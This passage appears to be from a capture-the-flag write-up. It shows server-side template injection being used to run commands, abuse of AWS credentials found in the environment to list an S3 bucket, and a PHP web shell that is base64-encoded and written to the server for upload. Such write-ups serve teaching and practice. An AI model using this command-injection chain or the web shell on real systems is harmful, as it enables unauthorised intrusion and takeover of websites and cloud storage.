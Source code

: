 ![image.png]({{ site.baseurl }}/assets/gobox/image%2010.png)

The keys are in env, so it lets us communicate with aws. Let’s check if the binary is on the machine:

```bash
{{ .DebugCmd "which aws" }}
```

![image.png]({{ site.baseurl }}/assets/gobox/image%2011.png)

It is. Let’s list buckets:

```bash
{{ .DebugCmd "aws s3 ls" }}
```

![image.png]({{ site.baseurl }}/assets/gobox/image%2012.png)

We have a bucket `website`. 

Let’s look inside:

```bash
{{ .DebugCmd "aws s3 ls s3://website" }}
```

![image.png]({{ site.baseurl }}/assets/gobox/image%2013.png)

This looks like the main website on port 80. Let’s try uploading a web shell. First, create our webshell:

```bash
<?php system($_REQUEST["cmd"]); ?>
```

Store this in a file and base64 encode it:

```bash
base64 webshell.php

PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsiY21kIl0pOyA/Pgo=
```

Now upload it; copy to temp file on server, verify integrity, copy to s3 bucket:

```bash
#write to tmp file
{{ .DebugCmd "echo -n 'PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsiY21kIl0pOyA/Pgo=' | base64 -d > /tmp/web" }}

#verify 
{{ .DebugCmd "cat /tmp/web" }}
```

![image.png]({{ site.baseurl }}/assets/gobox/image%2014.png)

Let’s check base64 encoding:

```bash
{{ .DebugCmd "base64 /tmp/web" }}

#response

             Email Sent To: PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsiY21kIl0pOyA/Pgo=
             
             
#verify 
echo -n 'PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsiY21kIl0pOyA/Pgo=' | base64 -d 

<?php system($_REQUEST["cmd"]); ?>
```
